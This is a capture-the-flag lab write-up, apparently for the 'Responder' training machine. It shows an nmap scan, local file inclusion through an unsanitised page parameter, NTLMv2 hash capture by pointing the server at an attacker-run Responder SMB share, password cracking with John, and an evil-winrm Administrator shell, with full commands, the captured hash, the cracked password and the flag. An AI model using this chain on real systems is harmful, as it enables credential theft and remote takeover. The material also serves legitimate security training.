

# Responer

## Scan

We are scanning all ports on this target windows machine.

```bash
nmap -v --min-rate 10000 -sC -sV -T5 -p- 10.129.95.234
```

It takes a very long time...

### Open ports

```text
PORT     STATE SERVICE    VERSION
80/tcp   open  http       Apache httpd 2.4.52 ((Win64) OpenSSL/1.1.1m PHP/8.1.1)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.52 (Win64) OpenSSL/1.1.1m PHP/8.1.1
5985/tcp open  http       Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
7680/tcp open  tcpwrapped
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

## Apache server

Opening 10.129.95.234 redirects us to <http://unika.htb>, so
we add an entry at /etc/hosts

```bash
# /etc/hosts

10.129.95.234 unika.htb
```


So we found the vulnerability of the page query not being sanitized by
trying /windows/system32/drivers/etc/hosts ~~reading the answer~~.
Local file inclusion is successful.



## Exploit

### Remote file vulnerability

Use [responder](https://github.com/lgandx/Responder) to create an smb server on our device.

```bash
sudo python3 Responder.py -I tun0
```

Requesting <http://unika.htb/index.php?page=\\[ourip]\anything> gives us at the responder server:

```text
[SMB] NTLMv2-SSP Client   : ::ffff:10.129.95.234
[SMB] NTLMv2-SSP Username : RESPONDER\Administrator
[SMB] NTLMv2-SSP Hash     : Administrator::RESPONDER:596fd0fb56dd4ca9:9B7985CE60830CE4200C09B69229AB8C:0101000000000000009A6224BB58D8018922A58E042A8B160000000002000800490045004C00500001001E00570049004E002D0054005700430036003800590058004A00370049004C0004003400570049004E002D0054005700430036003800590058004A00370049004C002E00490045004C0050002E004C004F00430041004C0003001400490045004C0050002E004C004F00430041004C0005001400490045004C0050002E004C004F00430041004C0007000800009A6224BB58D80106000400020000000800300030000000000000000100000000200000D8320423E1DE81D0E40E1BA99B9A9256558E73F8C4EC8A78C386BB7E9DD858850A001000000000000000000000000000000000000900200063006900660073002F00310030002E00310030002E00310034002E00350037000000000000000000
```

#### Brute forcing the password

```bash
echo "Administrator::RESPONDER:596fd0fb56dd4ca9:9B7985CE60830CE4200C09B69229AB8C:0101000000000000009A6224BB58D8018922A58E042A8B160000000002000800490045004C00500001001E00570049004E002D0054005700430036003800590058004A00370049004C0004003400570049004E002D0054005700430036003800590058004A00370049004C002E00490045004C0050002E004C004F00430041004C0003001400490045004C0050002E004C004F00430041004C0005001400490045004C0050002E004C004F00430041004C0007000800009A6224BB58D80106000400020000000800300030000000000000000100000000200000D8320423E1DE81D0E40E1BA99B9A9256558E73F8C4EC8A78C386BB7E9DD858850A001000000000000000000000000000000000000900200063006900660073002F00310030002E00310030002E00310034002E00350037000000000000000000" > hash.txt

john -w=/usr/share/worklists/rockou.txt hash.txt
```

The password is `badminton`.

### Winrm shell

```bash
evil-winrm -i 10.129.95.234 -u Administrator -p badminton # windows is not case-sensitive
```

```powershell
*Evil-WinRM* PS C:\Users\mike\Desktop> Get-Content flag.txt
ea81b7afddd03efaa0945333ed147fac
```
